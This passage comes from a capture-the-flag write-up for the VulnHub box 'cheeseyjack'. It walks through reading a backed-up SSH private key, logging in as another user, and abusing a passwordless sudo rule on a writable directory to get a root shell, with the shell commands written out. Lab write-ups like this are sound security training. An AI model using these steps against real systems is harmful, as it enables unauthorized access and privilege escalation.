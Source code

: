 ## On the box
On the box we find a couple of potentially interesting users in *crab* and (of course) *ch33s3m4n*. We can look in *crab*'s home and find this:

{% highlight shell %}
www-data@cheeseyjack:/home/crab$ cat todo.txt
cat todo.txt
1. Scold cheese for weak qdpm password (done)
2. Backup SSH keys to /var/backups
3. Change cheeses weak password
4. Milk
5. Eggs
6. Stop putting my grocery list on my todo lists
{% endhighlight %}

Which leads us to this:

{% highlight shell %}
www-data@cheeseyjack:/var/backups/ssh-bak$ file key.bak
file key.bak
key.bak: OpenSSH private key
{% endhighlight %}

This is the SSH private key for *crab*. Copying it to our machine, we can chmod 600 it and SSH in as *crab*. 

{% highlight shell %}
root@kali:/opt/vulnhub/cheesey# ssh -i id_rsa crab@192.168.1.134 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-48-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
{% endhighlight %}

## Privesc
Once we're in as *crab*, we find he can run things in his */.bin* directory as root. So we can make ourselves a file and execute it. 

{% highlight shell %}
crab@cheeseyjack:/dev/shm$ sudo -l
Matching Defaults entries for crab on cheeseyjack:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User crab may run the following commands on cheeseyjack:
    (ALL : ALL) ALL
    (root) NOPASSWD: /home/crab/.bin/
{% endhighlight %}

So here we go:

{% highlight shell %}
crab@cheeseyjack:~$ cd .bin
crab@cheeseyjack:~/.bin$ nano test
crab@cheeseyjack:~/.bin$ chmod +x test 
crab@cheeseyjack:~/.bin$ sudo -u root /home/crab/.bin/test 
root@cheeseyjack:/home/crab/.bin# whoami
root

root@cheeseyjack:~# cat root.txt
**ASCII Art Removed**
WOWWEEEE! You rooted my box! Congratulations. If you enjoyed this box there will be more coming.

Tag me on twitter @cheesewadd with this picture and ill give you a RT!
{% endhighlight %}

In this instance *test* was just a bash script that started *bash*. 
